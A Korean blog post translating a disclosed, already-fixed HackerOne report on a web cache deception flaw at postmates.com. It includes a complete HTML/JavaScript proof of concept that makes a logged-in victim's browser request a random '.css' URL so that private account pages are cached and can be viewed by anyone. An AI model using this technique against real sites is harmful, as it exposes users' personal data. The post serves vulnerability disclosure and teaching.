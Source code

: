 ```yaml
---
layout: post
title: 사용자 정보를 유출시킬 수 있는 웹 캐시 포이즈닝 (postmates.com)
categories: PoC
tags: [Bugbounty, CachePoisoning, Translation, Hackerone]
---
```

Web Cache Poisoning에 대해 설명되어있는 유튜브 영상 :
{% include youtube_embed.html id="1d1tUefYn4U" %}
- - -
출처 : [hackerone hacktivity, 작성자 : David Albert (davidalbert)] https://hackerone.com/reports/492841

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 2월 26일 오후 9시 37분에 공개되었습니다. Postmates에 리포팅 되었으며, 해당 페이지는 Postmates의 자산입니다. 취약점의 종류는 Violation of Secure Design Principles이며, 포상금은 $500달러로 한화로 약 57만원 입니다. 해당 취약점은 해당 도메인에서 8.2/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
# 설명
안녕하세요,

당신의 웹 서버는 웹 캐시 포이즈닝 공격에 취약합니다. 이 말은 즉, 공격자가 다른 사용자의 정보를 탈취할 수 있다는 것입니다.

예를 들어, 당신이 이 페이지에 방문하여 로그인을 한다고 가정하면 : https://postmates.com/SomeRandomText.css

서버는 캐시에 그 정보를 저장할 것입니다. 하지만 로그인 된 사용자의 정보가 저장이 될 것입니다 🙂 로그인하지 않은 사용자 여기 해당 사이트에 방문이 가능하며 그곳에 저장되어있는 정보를 볼 수 있습니다. 이 경우에는 다음 url이 해당됩니다 : https://postmates.com/SomeRandomText.css

저는 간단한 javascript/html 코드를 작성했고, 이것은 해당 공격을 완전히 자동화해서 실행시킬 수 있는 코드로, 당신은 해당 사이트에 방문해 3초만 기다리시면 됩니다.

여기 간단한 개념증명(PoC) 코드가 있습니다 :
{% highlight html %}
<html>
<head>
</head>
<body>
<script>
    var cachedUrl = 'https://postmates.com/' + generateId() + '.css';
    const popup = window.open(cachedUrl);

    function generateId() {
        var content = '';
        const alphaWithNumber = 'QWERTZUIOPASDFGHJUKLYXCVBNM1234567890';

        for (var i = 0; i < 10; i++) {
            content += alphaWithNumber.charAt(Math.floor(Math.random() * alphaWithNumber.length))
        }
        return content;
    }

    var checker = setInterval(function() {
        if (popup.closed) {
            clearInterval(checker);
        }
    }, 200);
    var closer = setInterval(function() {
        popup.close();
        document.body.innerHTML = 'Victims content is now cached <a href="' + cachedUrl + '">here and the url can be saved on the hackers server</a><br><b>Full Url: ' + cachedUrl + '</b>'; 
        clearInterval(closer);
    }, 3000);

</script>
</body>
</html>
{% endhighlight %}
<div id="container">
	<div id="box">
		![1]({{site.baseurl}}/images/1_Logged_in_(Normal).png)]
	</div>
	<div id="box">
		![2]({{site.baseurl}}/images/2_Logged_in_(Normal).png)]
	</div>
	<div id="box">
		![3]({{site.baseurl}}/images/3_Not_Logged_in_(Private_Mode).png)]
	</div>
</div>
<div id="container">
	<div id="box">
		![4]({{site.baseurl}}/images/4_Not_Logged_in_(Private_Mode).png)]
	</div>
	<div id="box">
		![5]({{site.baseurl}}/images/5_Logged_in_Victim_visits_attackers_website_(Normal).png)]
	</div>
	<div id="box">
		![6]({{site.baseurl}}/images/6_Everyone_can_see_the_logged_in_content_on_this_website_(Private_Mode).png)]
	</div>
</div>
![7]({{site.baseurl}}/images/7_Attacker_can_get_important_informations_(Private_Mode).png)]

이론상으로, 공격자는 이 정보를 그 자신만의 서버에 저장할 수 있지만, 이 예시에서는 URL이 단지 보여지기만 했습니다. 웹사이트 보안을 위해 꾸준히 지켜봐주셨으면 합니다 그리고 제 리포트가 도움이 되었길 희망합니다.

해당 공격에 대한 몇가지 정보 : https://www.blackhat.com/docs/us-17/wednesday/us-17-Gil-Web-Cache-Deception-Attack.pdf

덧1) 개념증명(PoC) 프로젝트로써, 팝업을 허용하는 것은 중요합니다. 깜빡했네요 여기 첨부 파일이 있습니다 :  
<a href="{{site.baseurl}}/attach/postmatesPoC.html" download>postmatesPoC 다운로드</a>

덧2) 지난번에 전혀 방문하지 않았던 URL이어야 합니다. 그러면 성공할 것이고 서버는 정보를 저장하게 될 것 입니다. URL의 끝은 반드시 ".css"로 해주세요.
- - -
# 영향
웹 캐시 포이즈닝 공격은 로그인 보안에 중요한 이름과 멤버 아이디와 같은 사용자 정보들을 훔칠 수 있습니다(예시로요).